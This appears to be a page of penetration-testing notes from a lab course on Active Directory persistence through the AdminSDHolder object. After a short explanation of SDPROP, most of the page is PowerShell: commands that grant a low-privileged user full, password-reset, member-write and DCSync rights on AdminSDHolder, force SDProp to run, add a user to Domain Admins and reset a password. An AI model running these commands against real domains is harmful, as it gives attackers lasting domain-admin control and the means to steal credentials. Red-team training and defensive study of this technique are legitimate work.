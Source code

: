 # AdminSDHolder

AdminSDHolder is a system container that used to control permissions.\
These permissions are used as a template for protected accounts to prevent modifications to them. \


Security Descriptor Propagator (SDPROP) runs every 60 minutes.\
SDPROP compares between the ACL of the protected groups and members and the ACL of AdminSDHolder, then any differences are overwritten on the ACL Object.

## Exploitation

An attacker can utilize SDROP mechinsem by adding a user with GenericAll privileges\
to theAdminSD Holder object.\
\
When the SDPROP runs (every 60 minutes) the user will be add with elevated privileges.\


Adding user to the AdminSDHolder object&#x20;

{% code overflow="wrap" %}
```powershell
# Full privs
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dcdollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Reset Password priv
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc
al' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Write Members priv
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc
al' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# DC Sync priv
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc
al' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
{% endcode %}

Run SDProp mannually

```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose

# pre-Server 2008 machines
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

## Abusing rights

{% tabs %}
{% tab title="PowerView" %}
```powershell
# Add user to DA group
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose

# Reset Password
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
# Add user to DA group
Add-ADGroupMember -Identity 'Domain Admins' -Members testda

# Reset Password
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```
{% endtab %}
{% endtabs %}

